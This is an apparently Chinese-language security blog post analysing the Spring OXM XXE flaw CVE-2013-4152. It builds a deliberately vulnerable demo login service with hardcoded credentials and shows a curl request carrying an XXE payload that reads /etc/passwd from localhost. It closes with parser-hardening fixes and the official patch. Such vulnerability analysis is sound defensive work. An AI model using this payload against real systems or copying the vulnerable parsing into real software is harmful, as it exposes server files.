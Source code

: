 ```yaml
---
layout: post  
title: "2018-01-26-Spring XXE漏洞(CVE-2013-4152,CVE-2014-0225)"  
date: 2018-01-26  
description: "java漏洞"  
tag: 漏洞分析
---
```

  #介绍  
老漏洞了，原理也很简单，随便分析一波。  
漏洞编号为CVE-2013-4152，根据官方提示，xxe漏洞，漏洞的位置包括oxm，嗯，现学现卖，直接翻到文档学习一波
https://docs.spring.io/spring/docs/current/spring-framework-reference/data-access.html#oxm
根据官方写一个demo  

    ````
    public class Application {
    private static final String FILE_NAME = "src/main/java/test/settings.xml";
    private Settings settings = new Settings();
    private Marshaller marshaller;
    private Unmarshaller unmarshaller;

    public void setMarshaller(Marshaller marshaller) {
        this.marshaller = marshaller;
    }

    public void setUnmarshaller(Unmarshaller unmarshaller) {
        this.unmarshaller = unmarshaller;
    }

    public void saveSettings() throws IOException {
        FileOutputStream os = null;
        try {
            os = new FileOutputStream(FILE_NAME);
            this.marshaller.marshal(settings, new StreamResult(os));
        } finally {
            if (os != null) {
                os.close();
            }
        }
    }

    public void loadSettings() throws IOException {
        FileInputStream is = null;
        try {
            is = new FileInputStream(FILE_NAME);
            this.settings = (Settings) this.unmarshaller.unmarshal(new StreamSource(is));
        } finally {
            if (is != null) {
                is.close();
            }
        }
    }

    public static void main(String[] args) throws IOException {
        ApplicationContext appContext =
                new ClassPathXmlApplicationContext("applicationContext.xml");
        Application application = (Application) appContext.getBean("application");
        application.saveSettings();
        application.loadSettings();
    }

	}
----------------------------------	

    ````
    public class Settings {
    private boolean fooEnabled;

    public boolean isFooEnabled() {
        return fooEnabled;
    }

    public void setFooEnabled(boolean fooEnabled) {
        this.fooEnabled = fooEnabled;
    }

	}
    
    ````
    
----------------------------------
测试完xml解析之后，写了一个web项目，验证一下，核心代码如下:
    
    ````
    @Controller
	public class XmlController {
    @RequestMapping(value = "/login", method = RequestMethod.POST, consumes = "application/xml")
    @ResponseBody
    public String login(@RequestBody User user) {
        String username = user.getUserName();
        String userpassword = user.getUserPassword();
        String result;

        if (username.equals("admin") && userpassword.equals("admin888")){
            result = "{'status':'ok', 'message': 'login success', 'username': " + username+ "}";
        }else {
            result = "{'status':'error', 'message': 'login fail', username': " + username+ "}";
        }
        return result;
    }

	}
    ````
-----------------------------------

    ````
    @XmlRootElement(name = "user")
public class User {
    private String userId;
    private String userName;
    private String userPassword;

    @XmlElement
    public String getUserPassword() {
        return userPassword;
    }

    public void setUserPassword(String userPassword) {
        this.userPassword = userPassword;
    }

    @XmlElement
    public String getUserId() {
        return userId;
    }

    public void setUserId(String userId) {
        this.userId = userId;
    }

    @XmlElement
    public String getUserName() {
        return userName;
    }

    public void setUserName(String userName) {
        this.userName = userName;
    }
	}
    ````
   
-------------------------------------

正常测试XML如下

curl -i -X POST -H "Content-Type:application/xml" -d "<?xml version=\"1.0\" encoding=\"UTF-8\"?><user><userName>admin</userName><userPassword>admin888</userPassword></user>" http://127.0.0.1:8080/CVE-2013-4152/login

 xml：

<?xml version=\"1.0\" encoding=\"UTF-8\"?><user><userName>admin</userName><userPassword>admin</userPassword></user>

![](http://pic.findbugs.top/18-1-26/89299704.jpg)

有回显
curl -i -X POST -H "Content-Type:application/xml" -d "<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<!DOCTYPE a [<!ENTITY xxe2 SYSTEM \"file:///etc/passwd\">]>
<user><userName>&xxe2;</userName><userPassword>admin</userPassword></user>" http://127.0.0.1:8080/CVE-2013-4152/login
    ![](http://pic.findbugs.top/18-1-26/57761901.jpg)
    
漏洞造成的原因是由于unmarshal函数中直接解析xml文件,没什么好分析的。

官方修复的补丁
https://github.com/spring-projects/spring-framework/pull/317/commits/2843b7d2ee12e3f9c458f6f816befd21b402e3b9

指的说明的是网上很多关于xxe漏洞的修复方案中只提到
    
    DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
	dbf.setExpandEntityReferences(false);
	
各种类型的具体修复方案见下面
DOM

    DocumentBuilderFactory documentBuilderFactory = DocumentBuilderFactory.newInstance();
    documentBuilderFactory.setExpandEntityReferences(false);
    DocumentBuilder documentBuilder = documentBuilderFactory.newDocumentBuilder();
    Document document = documentBuilder.parse(externalSource);

SAX

    XMLReader xmlReader = XMLReaderFactory.createXMLReader();
    xmlReader.setFeature("http://xml.org/sax/features/external-general-entities", false);
    xmlReader.parse(new InputSource(externalSource));

StAX

    XMLInputFactory factory = XMLInputFactory.newInstance();
    factory.setProperty(XMLInputFactory.SUPPORT_DTD, false); // disable DTDs entirely for that factory
    factory.setProperty(XMLInputFactory.IS_SUPPORTING_EXTERNAL_ENTITIES, false); // disable external entities
    XMLStreamReader reader = factory.createXMLStreamReader(externalSource);


Spring OXM

    DocumentBuilderFactory documentBuilderFactory = DocumentBuilderFactory.newInstance();
    documentBuilderFactory.setExpandEntityReferences(false);
    DocumentBuilder documentBuilder = documentBuilderFactory.newDocumentBuilder();
    Document document = documentBuilder.parse(externalSource);
    DOMSource source = new DOMSource(document);
    Jaxb2Marshaller jaxb2Marshaller = ...
    Object unmarshalled = jaxb2Marshaller.unmarshal(source);



CVE-2013-4152补丁设置xmlReader.setFeature("http://xml.org/sax/features/external-general-entities",false);可以防止外部实体被解析  

![](http://pic.findbugs.top/18-1-26/60015109.jpg)

  ###参考文档  
http://blog.csdn.net/scmrpu/article/details/50423701
https://security.tencent.com/index.php/blog/msg/69






